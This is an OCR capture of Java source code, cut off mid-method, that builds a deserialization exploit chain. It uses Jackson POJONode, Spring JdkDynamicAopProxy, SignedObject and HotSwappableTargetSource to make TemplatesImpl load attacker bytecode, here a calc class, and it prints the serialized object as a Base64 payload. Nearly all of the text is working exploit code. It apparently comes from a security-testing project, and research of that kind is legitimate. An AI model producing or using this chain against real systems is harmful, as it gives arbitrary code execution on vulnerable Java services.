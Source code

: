 ```bash
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();


        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
        Templates templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{payloads});
        setFieldValue(templatesImpl, "_name", "aaaa");
        setFieldValue(templatesImpl, "_tfactory", null);

        POJONode po1= new POJONode(makeTemplatesImplAopProxy(templatesImpl));
        BadAttributeValueExpException ba1= new BadAttributeValueExpException(1);
        setFieldValue(ba1,"val",po1);

        KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject( ba1, privateKey, signingEngine);

        POJONode jsonNodes = new POJONode(1);
        setFieldValue(jsonNodes,"_value",signedObject);
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(jsonNodes);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("1"));
        HashMap hashMap = makeMap(hotSwappableTargetSource1, hotSwappableTargetSource2);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        String res = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(res);
    }

    public static Object makeTemplatesImplAopProxy(Templates templates) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static HashMap<Object, Object> makeMap (Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
```